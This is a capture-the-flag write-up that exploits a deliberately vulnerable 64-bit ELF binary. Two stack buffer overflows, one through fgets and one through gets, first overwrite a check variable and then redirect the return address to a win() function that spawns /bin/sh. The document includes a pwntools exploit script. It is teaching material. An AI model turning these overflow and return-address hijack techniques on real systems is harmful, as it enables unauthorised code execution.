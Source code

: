 # Challenge One

## General

You can download the [binary](./chall_one) , if you want to test it locally .

## Overview

Output of file command on binary :
```
$ file chall_one
chall_one: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e4a15d68b537c4977341a710db4bb5da35b01bcb, for GNU/Linux 3.2.0, not stripped
```
Output of checksec command :
```
$ checksec chall_one
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
We can conclude that there are no major security measures on the binary except the enabling of NX .

## Decompilation on ghidra 

Main method : 
```

ulong main(undefined4 uParm1,undefined8 uParm2)

{
  char local_26 [10];
  int local_1c;
  undefined8 local_18;
  undefined4 local_10;
  uint local_c;
  
  local_c = 0;
  local_1c = -0x35014542;
  local_18 = uParm2;
  local_10 = uParm1;
  fgets(local_26,0x14,stdin);
  if (local_1c == -0x45413502{
    puts("stage one cleared");
    vuln();
  }
  return (ulong)local_c;
}
\\ After seeing the raw source code of binary,I found out that the negative hex values were actually 0xcafebabe and 0xbabecafe respectively
```

vuln method :
```

void vuln(void)

{
  char local_12 [10];
  
  gets(local_12);
  return;
}

```

Another interesting function which you can see in decompiled code is win() , here is its source code :
```
void win(void)

{
  printf("You win!\n");
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}

```
## How to Exploit : 

### Stage-one
We observe a basic buffer overflow in the `local_26` variable of main function as we can write `20 bytes` in it whereas the size allocated to it is only `10 bytes` . So , we are able to overwrite further `10 bytes` in stack meant for other local variables !
Initially , `local_1c` variable was loaded with the value : `0xcafebabe` . We had to overwrite this variable and make its value `0xbabecafe` in order to pass first check. This variable was just below our input variable `local_26` in stack ,therefore we can write 10 bytes meant for `local_26` and then further overwrite `4 bytes` of `local_1c` variable .

So,this payload `b'A'*10+p32(int("babecafe",16))` will be enough to overwrite `local_1c` variable and pass our first stage .

### Poppin' a shell
So, pat your back you passed the first check ! Now we need to somehow access win function and pop a shell via `/bin/sh` .
Going to the vuln() function , there is a buffer overflow in local_12 variable as the function uses gets() to take input . local_12 is occupying 10 bytes on stack . Below it is 8 bytes of saved `%rbp` register and then 8 bytes of `return address`. We need to overwrite these 8 bytes of return address so that when `%rip` register accesses this address, it goes to `win()` function instead of intended `main()` function .  
As this is a 64 bit binary , we have function addresses as 64 bits. Extracting the address of `win()` using objdump.

```
$ odjdump -d chall_one | grep "win"
0000000000401170 <win>:
```
So the address of `win()` is 0x401170 .

Now final payload after entering `vuln()` would be `b'A'*18+p64(int("401170",16))` . `8 bytes` to overwrite `saved %rbp value` and then further `8 bytes` to overwrite return address.

That's how you enter win() function and pop a shell !

## Final exploit

```from pwn import *
p=process("./chall_one")
gdb.attach(p)
p.sendline(b'A'*10+p32(int("babecafe",16)))
p.sendline(b'A'*18+p64(int("401170",16)))
p.interactive()
```

Thanks for reading . Happy hacking !




